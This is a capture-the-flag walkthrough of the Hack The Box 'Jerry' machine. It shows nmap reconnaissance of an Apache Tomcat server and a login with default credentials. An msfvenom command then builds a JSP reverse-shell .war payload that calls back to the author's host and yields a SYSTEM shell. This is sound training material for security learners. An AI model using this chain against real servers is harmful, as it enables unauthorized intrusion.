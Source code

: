 ﻿---
title: 'Jerry Walkthrough: Brute-Forcing Default Service Credentials '
date: 2024-10-28 12:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- standalone
- brute-force
description: Walkthrough of HTB's Jerry machine
---
### Recon

Started with NMAP Scan to discover open ports

```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.95 --max-retries 0 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 08:43 EDT
Warning: 10.10.10.95 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.95
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.83 seconds
```

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 8080 10.10.10.95 --max-retries 0
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds

```

A service named â€œApache Tomcatâ€ running on the port 8080. The http-open-proxy script indicates that the server might be misconfigured as an open proxy.

### Nmap Flags:

- **`sS`**: Performs a SYN scan (stealth scan).
- **`n`**: Disables DNS resolution to speed up scanning.
- **`-disable-arp-ping`**: Skips ARP ping.
- **`p`**: Scans all of the ports.
- **`A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning
- **`--script=vuln,exploit` :** Runs NMAP default NSE vuln, exploit scripts to identify potential vulnerabilities.

NMAP was unable to determine any vulnerabilities for the service, but found some interesting paths

```bash

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder

```

### Brute-Forcing credentials

![image.png]({ '/assets/img/Jerry/image.png' | relative_url })

Tried accessing â€œServer statusâ€, which returned a pop-up asking for credentials to access the page as shown below.

![image.png]({ '/assets/img/Jerry/image%201.png' | relative_url })

Brute-forced few known credentials found on [google](https://stackoverflow.com/questions/3829513/what-is-the-default-username-and-password-in-tomcat). Username:Password- admin:admin worked for logging into â€œServer Statusâ€, â€œManager Appâ€,â€Host Managerâ€

Found some interesting information on the webpage â€œHost Managerâ€ 

![image.png]({ '/assets/img/Jerry/image%202.png' | relative_url })

With the credentials obtained tomcat:s3cret (Username:Password), logged into â€œTomcat Web Application Managerâ€ on an another Private tab. 

![image.png]({ '/assets/img/Jerry/image%203.png' | relative_url })

As the tomcat user, we can upload a .war file  to the server.

![image.png]({ '/assets/img/Jerry/image%204.png' | relative_url })

A .war (Web application Archive) file is a packaged file format used to distribute Java-based web applications. It stands for Web application resource and is essentially a compressed archive similar to a .zip file., but with a speific structure intended for deployment on a Java EE server, such as Apache Tomcat.

### Generating Payload & Obtaining a Reverse Shell

Generating .war payloads using â€œmsfvenomâ€

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -Ff war -o test.war
```

Successfully uploaded the file (test.war) to the server

![image.png]({ '/assets/img/Jerry/image%205.png' | relative_url })

Accessing the file via web browser at â€œtestâ€ location resulted in obtaining a reverse shell.

![image.png]({ '/assets/img/Jerry/image%206.png' | relative_url })

Obtained shell has SYSTEM Privileges

![image.png]({ '/assets/img/Jerry/image%207.png' | relative_url })

The flags are located at Administratorâ€™s Desktop

![image.png]({ '/assets/img/Jerry/image%208.png' | relative_url })

### Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*




